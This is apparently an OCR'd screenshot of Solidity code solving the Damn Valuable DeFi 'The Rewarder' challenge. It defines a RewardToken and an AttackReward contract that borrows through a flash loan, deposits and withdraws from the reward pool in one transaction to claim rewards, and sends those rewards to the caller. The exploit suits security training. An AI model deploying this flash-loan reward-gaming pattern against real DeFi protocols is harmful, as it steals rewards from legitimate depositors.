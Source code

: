 ```
    function distributeRewards() external returns (uint256);

    function isNewRewardsRound() external view returns (bool);
`}`

/**
 * @notice A mintable ERC20 token to issue rewards
 */
contract RewardToken is ERC20, AccessControl `{`

    bytes32 public constant MINTER_ROLE = keccak256("MINTER_ROLE");

    constructor() public ERC20("Reward Token", "RWT") `{`
        _setupRole(DEFAULT_ADMIN_ROLE, msg.sender);
        _setupRole(MINTER_ROLE, msg.sender);
    `}`

    function mint(address to, uint256 amount) external `{`
        require(hasRole(MINTER_ROLE, msg.sender));
        _mint(to, amount);
    `}`
`}`

contract AttackReward `{`
    DamnValuableToken public liquidityToken;
    RewardToken public rewardToken;
    IFlashLoanerPool public flashLoanerPool;
    ITheRewarderPool public theRewarderPool;

    constructor(address liquidityTokenAddress, address rewardTokenAddress, IFlashLoanerPool _flashLoanerPool, ITheRewarderPool _theRewarderPool) public `{`
        liquidityToken = DamnValuableToken(liquidityTokenAddress);
        rewardToken = RewardToken(rewardTokenAddress);
        flashLoanerPool = _flashLoanerPool;
        theRewarderPool = _theRewarderPool;
    `}`

    function attack(uint256 amount) public `{`
        flashLoanerPool.flashLoan(amount);
        rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
    `}`

    function receiveFlashLoan(uint256 amount) public `{`
        liquidityToken.approve(address(theRewarderPool), amount);
        theRewarderPool.deposit(amount);
        theRewarderPool.withdraw(amount);
        liquidityToken.transfer(address(flashLoanerPool), amount);
    `}`
`}`
```
